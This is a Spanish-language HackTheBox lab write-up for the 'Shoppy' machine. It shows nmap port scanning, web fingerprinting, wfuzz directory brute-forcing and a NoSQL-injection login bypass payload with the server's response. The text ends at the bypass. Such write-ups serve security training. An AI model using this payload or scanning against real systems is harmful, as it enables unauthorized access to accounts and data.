 ```yaml
---
title: Shoppy | Linux
published: 2025-10-19
image: "./logo.png"
tags: [Easy, Linux, ]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- Virtual Hosting
- Subdomain Enumeration
- NoSQL Injection (Admin Auth Bypass)
- Abusing the Shoppy App search engine (NoSQL Injection) - Obtaining the password of DB users
- Cracking Hashes Online
- Log into Mattermost + Information Leakage
- Abusing Sudoers Privilege
- Binary Analysis - GHIDRA (Reverse Engineering)
- Abusing docker group [Privilege Escalation]

### Preparación

- eWPT
- OSWE
- OSCP

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.180 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.11.180`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
9093/tcp open  copycat syn-ack ttl 63
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p22,80,9093 10.10.11.180 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.11.180`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http    nginx 1.23.1
|_http-title:             Shoppy Wait Page        
|_http-server-header: nginx/1.23.1
9093/tcp open  http    Golang net/http server
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Site doesn't have a title (text/plain; version=0.0.4; charset=utf-8).
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Sun, 19 Oct 2025 13:01:10 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 5
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 5
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 2.9496e-05
|     go_gc_duration_seconds{quantile="0.25"} 5.4552e-05
|_    go_gc_dur
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.95%I=7%D=10/19%Time=68F4E0FC%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(GetRequest,2FA4,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:
SF:\x20text/plain;\x20version=0\.0\.4;\x20charset=utf-8\r\nDate:\x20Sun,\x
SF:2019\x20Oct\x202025\x2013:01:10\x20GMT\r\n\r\n#\x20HELP\x20go_gc_cycles
SF:_automatic_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\
SF:x20generated\x20by\x20the\x20Go\x20runtime\.\n#\x20TYPE\x20go_gc_cycles
SF:_automatic_gc_cycles_total\x20counter\ngo_gc_cycles_automatic_gc_cycles
SF:_total\x205\n#\x20HELP\x20go_gc_cycles_forced_gc_cycles_total\x20Count\
SF:x20of\x20completed\x20GC\x20cycles\x20forced\x20by\x20the\x20applicatio
SF:n\.\n#\x20TYPE\x20go_gc_cycles_forced_gc_cycles_total\x20counter\ngo_gc
SF:_cycles_forced_gc_cycles_total\x200\n#\x20HELP\x20go_gc_cycles_total_gc
SF:_cycles_total\x20Count\x20of\x20all\x20completed\x20GC\x20cycles\.\n#\x
SF:20TYPE\x20go_gc_cycles_total_gc_cycles_total\x20counter\ngo_gc_cycles_t
SF:otal_gc_cycles_total\x205\n#\x20HELP\x20go_gc_duration_seconds\x20A\x20
SF:summary\x20of\x20the\x20pause\x20duration\x20of\x20garbage\x20collectio
SF:n\x20cycles\.\n#\x20TYPE\x20go_gc_duration_seconds\x20summary\ngo_gc_du
SF:ration_seconds{quantile=\"0\"}\x202\.9496e-05\ngo_gc_duration_seconds{q
SF:uantile=\"0\.25\"}\x205\.4552e-05\ngo_gc_dur")%r(HTTPOptions,2FA4,"HTTP
SF:/1\.0\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20version=0\.0\.4;\
SF:x20charset=utf-8\r\nDate:\x20Sun,\x2019\x20Oct\x202025\x2013:01:10\x20G
SF:MT\r\n\r\n#\x20HELP\x20go_gc_cycles_automatic_gc_cycles_total\x20Count\
SF:x20of\x20completed\x20GC\x20cycles\x20generated\x20by\x20the\x20Go\x20r
SF:untime\.\n#\x20TYPE\x20go_gc_cycles_automatic_gc_cycles_total\x20counte
SF:r\ngo_gc_cycles_automatic_gc_cycles_total\x205\n#\x20HELP\x20go_gc_cycl
SF:es_forced_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20forced\x20by\x20the\x20application\.\n#\x20TYPE\x20go_gc_cycles_force
SF:d_gc_cycles_total\x20counter\ngo_gc_cycles_forced_gc_cycles_total\x200\
SF:n#\x20HELP\x20go_gc_cycles_total_gc_cycles_total\x20Count\x20of\x20all\
SF:x20completed\x20GC\x20cycles\.\n#\x20TYPE\x20go_gc_cycles_total_gc_cycl
SF:es_total\x20counter\ngo_gc_cycles_total_gc_cycles_total\x205\n#\x20HELP
SF:\x20go_gc_duration_seconds\x20A\x20summary\x20of\x20the\x20pause\x20dur
SF:ation\x20of\x20garbage\x20collection\x20cycles\.\n#\x20TYPE\x20go_gc_du
SF:ration_seconds\x20summary\ngo_gc_duration_seconds{quantile=\"0\"}\x202\
SF:.9496e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x205\.4552e-05\ng
SF:o_gc_dur");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### WhatWeb

Comenzaremos reconociendo que tecnología está usando la web:

```bash wrap=false
❯ whatweb http://10.10.11.180                                                                                                                    
http://10.10.11.180 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.23.1], IP[10.10.11.180], RedirectLocation[http://shoppy.htb], Title[301 Moved Permanently], nginx[1.23.1]
http://shoppy.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.23.1], IP[10.10.11.180], JQuery, Script, Title[Shoppy Wait Page][Title element contains newline(s)!], nginx[1.23.1]
```

Deberemos añadir el dominio `shoppy.htb` a `/etc/hosts`.

### Wfuzz

Para ver archivos/directorios ocultos dentro de la web objetivo, usaremos `wfuzz` para realizar fuerza bruta:

```bash wrap=false
❯ wfuzz -c -L -t 200 --hc=404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt http://shoppy.htb/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/FUZZ
Total requests: 26583

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                               
=====================================================================

000000039:   200        25 L     62 W       1074 Ch     "login"                                                                                                                                                                               
000000003:   200        25 L     62 W       1074 Ch     "admin"  
```

Si entramos a `/admin` nos lleva a `/login`.

![Login panel](./1.png)

### NoSQLi Auth Bypass

Probando **payloads** para un `NoSQLi`, el de [este artículo](https://nullsweep.com/nosql-injection-cheatsheet/), me funciona `username=admin' || '1'=='1&password=admin`:

```txt wrap=false
HTTP/1.1 302 Found
Server: nginx/1.23.1
Date: Mon, 20 Oct 2025 16:23:36 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: keep-alive
Location: /admin
Vary: Accept
Set-Cookie: connect.sid=s%3AV4NRfeadzMU2OKTgpJu5jW2oK8xqKdv5.SOLmiusky7RmyjLwsezUBMeZpldJ1TPZIaIPpNJ1n4A; Path=/; HttpOnly

<p>Found. Redirecting to <a href="/admin">/admin</a></p>
```

![Login bypass](./2.png)

// PWNED

---
